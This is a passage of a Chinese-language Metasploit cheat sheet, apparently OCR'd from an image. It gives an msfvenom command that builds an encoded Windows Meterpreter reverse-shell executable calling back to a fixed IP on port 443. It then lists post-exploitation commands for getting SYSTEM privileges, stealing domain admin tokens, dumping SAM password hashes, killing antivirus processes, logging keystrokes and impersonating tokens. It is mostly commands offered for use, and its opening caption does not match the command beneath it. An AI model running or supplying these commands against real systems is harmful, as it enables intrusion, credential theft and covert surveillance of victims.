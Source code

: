 创建一个raw格式的bind_tcp模式的Meterpreter攻击载荷，编码7次，输出payload.exe，同时开启多路监听方式

七、MSFvenom
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai LHOST=172.14.1.32 LPORT=443 > msf.exe

创建和编码攻击载荷

八、Meterpreter后渗透攻击阶段命令
在windows主机上提权

meterpreter > use priv

meterpreter > getsystem

在一个给定的进程ID中窃取一个域管理员组令牌，添加一个域账户，并把域账户添加到域管理员组中

meterpreter > ps

meterpreter > steal_token 1784

meterpreter > shell

从SAM数据库中导出密码的哈希值

meterpreter > use priv

meterpreter > getsystem

meterpreter > hashdump

提示：在windows8中，若getsystem命令和hashdump命令抛出异常，则需要迁移到一个以system系统权限运行的程序中

自动迁移到一个独立进程

meterpreter > run migrate

通过Meterpreter的killav脚本杀死目标主机上运行的杀毒软件进程

meterpreter > run killav

针对一个特定的进程捕获目标主机上的键盘记录

meterpreter > ps

meterpreter > migrate 1436

meterpreter > keyscan_start

meterpreter > keyscan_dump

meterpreter > keyscan_stop

使用匿名方式来冒充管理员

meterpreter > use incognito

meterpreter > list_tokens -u

meterpreter > use priv

meterpreter > getsystem

meterpreter > list_tokens -u
